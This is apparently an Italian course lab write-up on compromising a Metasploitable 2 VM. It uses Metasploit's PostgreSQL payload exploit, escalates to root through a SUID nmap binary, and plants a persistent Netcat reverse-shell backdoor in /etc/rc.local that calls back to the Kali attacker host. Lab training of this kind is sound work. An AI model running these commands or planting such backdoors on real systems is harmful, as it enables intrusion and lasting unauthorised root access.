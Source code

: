 # 📝 Consegna S7/L3
# Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.
- Installazione di una **backdoor persistente** con Netcat compatibile con sistemi a **32 bit**, forzando l'interfaccia corretta per comunicare con Kali Linux.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
set LHOST 192.168.50.2
exploit
```
- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

![ROOT!](./MeterpreterOK.png)

### **5. Installazione della backdoor persistente con Netcat**
Per ottenere una connessione persistente root su ogni avvio del sistema target, configurando correttamente la connessione verso Kali Linux:
1. Creazione dello script di backdoor:
   ```bash
   echo '#!/bin/bash' > /etc/backdoor_nc.sh
   echo 'nc -e /bin/bash -s 192.168.50.3 192.168.50.2 4444' >> /etc/backdoor_nc.sh
   chmod +x /etc/backdoor_nc.sh
   ```
   - **Spiegazione:**
     - `-e /bin/bash`: Esegue la shell.
     - `-s 192.168.50.3`: Forza l'interfaccia IP della macchina target (Metasploitable).
     - `192.168.50.2 4444`: Invio della connessione verso Kali Linux.

2. Aggiunta della backdoor all'avvio del sistema tramite `rc.local`:
   ```bash
   echo '/etc/backdoor_nc.sh &' >> /etc/rc.local
   chmod +x /etc/rc.local
   ```

3. Verifica del contenuto di `rc.local`:
   ```bash
   cat /etc/rc.local
   ```
- **Risultato:** La backdoor verrà eseguita automaticamente ad ogni avvio del sistema, aprendo una connessione Netcat verso Kali Linux sulla porta `4444` utilizzando l'interfaccia IP corretta.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.
- **Backdoor persistente:** Configurata tramite Netcat per una connessione automatica ad ogni avvio verso l'IP di Kali Linux utilizzando `eth1`.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.
- **Netcat:** Utilizzato per creare una backdoor persistente configurata per l'interfaccia corretta.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

La backdoor persistente con Netcat consente di mantenere l'accesso root in modo stabile e automatico, semplificando la fase post-exploitation e risolvendo problematiche legate alle interfacce multiple.

